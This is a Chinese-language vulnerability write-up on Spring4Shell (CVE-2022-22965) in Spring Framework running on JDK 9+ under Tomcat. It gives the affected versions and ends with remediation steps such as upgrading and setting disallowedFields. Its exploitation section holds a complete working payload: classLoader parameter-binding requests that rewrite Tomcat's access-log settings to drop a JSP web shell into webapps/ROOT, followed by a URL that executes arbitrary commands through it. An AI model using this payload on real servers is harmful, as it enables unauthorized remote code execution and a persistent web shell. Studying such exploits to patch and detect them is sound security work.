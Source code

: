 ### 一 漏洞描述
Spring framework，即Spring,是其他Spring全家桶的基础和核心：包括SpringMVC、SpringBoot、SpringCloud、SpringData、SpringSecurity。
Spring由Rod Johnson创立，2004年发布了Spring框架的第一版，其目的是用户简化企业级开发的难度和周期。

2022年3月31日，VMware发布安全公告，修复了Spring Framework中的远程代码执行漏洞（CVE-2022-22965）。在 JDK 9 及以上版本环境下，可以利用此漏洞在未授权的情况下在目标系统上写入恶意程序从而远程执行任意代码(因可设置classLoader的属性)。

影响范围  
影响组件：org.springframework:spring-beans  
影响版本：< 5.3.18 和 < 5.2.20.RELEASE 的Spring框架均存在该漏洞  
JDK版本：JDK>=9  
部署方式：war包部署在TOMCAT中

### 二 漏洞利用
POST数据
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=xxx& class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp& class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT& class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar& class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
``` 

1 请求
```
http://localhost:8080/spring4shelldemo/total


headers:
Content-Type:application/x-www-form-urlencoded
suffix:%>//
c1:Runtime
c2:<%

requestBody:
class.module.classLoader.resources.context.parent.pipeline.first.pattern:%{c2}i if("S".equals(request.getParameter("Tomcat"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i
class.module.classLoader.resources.context.parent.pipeline.first.suffix:.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory:webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix:Shell
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat:
```
2 请求之后我们去tomcat的webapp目录下看，发现已经多了一个ROOT的目录
3 点进去然后打开生成的Shell.jsp
4 http://localhost:8080/Shell.jsp?Tomcat=S&cmd=whoami

### 三 漏洞修复
1 更新到Spring Framework 5.3.18和5.2.20或更高  
2 升级到Apache Tomcat 10.0.20, 9.0.62, or 8.5.78
3 回退到Java8
4 在WebDataBinder上全局设置disallowedFields来禁止对特定字段的绑定


> 参考链接
> https://blog.csdn.net/lj15559275886/article/details/121598440  
> 分析文章  CVE-2010-1622到CVE-2022-22965: https://segmentfault.com/a/1190000041764863
